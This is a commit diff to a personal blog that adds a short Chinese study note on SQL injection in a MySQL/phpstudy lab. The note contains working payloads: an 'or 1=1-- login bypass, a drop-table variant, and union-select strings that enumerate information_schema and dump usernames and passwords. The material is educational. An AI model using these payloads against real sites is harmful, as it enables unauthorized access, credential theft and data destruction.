

Before and after one commit to shuaick/shuaick.github.io, a plain HTML site: page 2022/07/29/SQl注入漏洞/index.html in a window 1280 px wide. Shown: the top 1196 px of the page at 88% size. Drawn offline with Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours; no server answers; a script that the page names is missing.

Commit message:
Site updated: 2022-07-29 15:22:23

```diff
--- a/2022/07/29/SQl注入漏洞/index.html
+++ b/2022/07/29/SQl注入漏洞/index.html
@@ -574,6 +574,11 @@
 
         <div class="card-content article-card-content">
             <div id="articleContent">
+                <p>学习环境：MySQL+phpstudy</p>
+<p>注入原理：<br>String sql &#x3D;”select count(*) from admin where usename &#x3D;’”+admin.GetUsername()”‘+” and password &#x3D;’”+admin.getPassword”‘“</p>
+<p>select count(<em>) from admin where username&#x3D;’admin’ and pasword&#x3D;’password’<br>select count(</em>) from admin where username&#x3D;’’or 1&#x3D;1–’ and pasword&#x3D;’’</p>
+<p>‘or 1&#x3D;1–’  注释了后面的password，并且1&#x3D;1这条语句永远为真。<br>这条语句相当于select count(*) from admin  &#x2F;&#x2F;查询admin表里所有的数据<br>甚至 ‘ or 1&#x3D;1;drop table admin – 删除admin表</p>
+<p>&#x2F;&#x2F;查询表的表、列、字段<br>?id&#x3D;1 and 1&#x3D;1<br>当?id&#x3D;1   id&#x3D;2   id&#x3D;5   出现正常回显，？id&#x3D;1’时出现报错说明此时有注入点<br>?id&#x3D;1’ and 1&#x3D;2<br>?id&#x3D;1  order by  4–+<br>?id&#x3D;1’ union select by 1,2,3–+<br>?id&#x3D;-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema&#x3D;’security’–+<br>?id&#x3D;-1’ union select 1,group_concat(column_name),3 from information_schema.columns where table_name&#x3D;’users’–+<br>?id&#x3D;-1’ union select 1,group_concat(username,password),3 from users–+</p>
 
 
             </div>
```
Also changed, not shown: archives/2022/07/index.html (+2 -1 lines), archives/2022/index.html (+2 -1 lines), archives/index.html (+2 -1 lines), index.html (+3 -0 lines).
